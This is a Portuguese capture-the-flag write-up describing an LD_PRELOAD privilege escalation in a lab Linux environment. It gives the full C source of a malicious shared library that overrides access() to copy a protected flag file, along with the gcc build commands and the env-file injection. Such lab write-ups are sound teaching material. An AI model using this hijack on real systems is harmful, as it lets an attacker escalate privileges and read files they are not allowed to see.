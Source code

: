 # CTF #4 - Linux Environment 


## Identificação de vulnerabilidades

Primeiramente, começamos por recolher o máximo de informação possível sobre o sistema, de forma a tentar encontrar alguma vulnerabilidade.

O ficheiro **admin_note.txt** deu-nos uma dica, que existe uma vulnerabilidade na tmp folder que nos permitiria chegar à flag. Além disso, depois de ler o ficheiro **main.c**, através do comando **cat**, descobrimos que, possivelmente, existe um ficheiro chamado ***flag.txt*** na folder flags.

Por fim, chegamos à conclusão que o script que corre regularmente no servidor tem mais privilégios que nós, por isso deduzimos que o script estaria relacionado com o ataque também.

``` 
cat main.c
```

Finalmente, tentamos aceder a flags folder, mas não tinhamos permissão.
Com estas informações, começamos a construir um plano com o propósito de, de alguma forma, conseguir root privileges e ter acesso ao ficheiro ***flags.txt***.


## Ataque


O ataque consiste em dar override à função **access()** da standard C library, presente no **main.c**, e fazer uma system call através da função **system()** onde usamos o comando **cat** para copiar o que está no ficheiro ***flag.txt*** para um ficheiro criado por nós.

Primeiro, começamos por criar um ficheiro `lib.c`, que terá o código da nossa malicious library:

```
cat > lib.c

#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode) {
    system("/usr/bin/cat /flags/flag.txt > /tmp/text.txt");
       return 0;
}
```

O ficheiro `/tmp/text.txt` é um ficheiro temporário criado da seguinte forma :

```
touch text.txt
```

Este ficheiro irá conter o que estiver escrito no ficheiro `/flags/flag.txt`, que, em princípio, é a flag.

Depois disso, compilamos o `lib.c` de forma a torná-lo numa library com os seguintes comandos:

```
gcc -fPIC -g -c lib.c
```

E:

```
gcc -shared -o liblib.so.1.0.1 lib.o -lc
```

Por fim, temos que modificar o ficheiro `env` de forma a adicionar a library `liblib.so.1.0.1` à environment variable `LD_PRELOAD` desta forma:

``` 
cat > env
LD_PRELOAD=/tmp/liblib.so.1.0.1
```

Agora, basta esperar que o my_script.sh rode mais uma vez e a flag estará dentro do text.txt.

No nosso caso era `flag{90069b3c95cdd8df71e65ce0fd7ce815}`
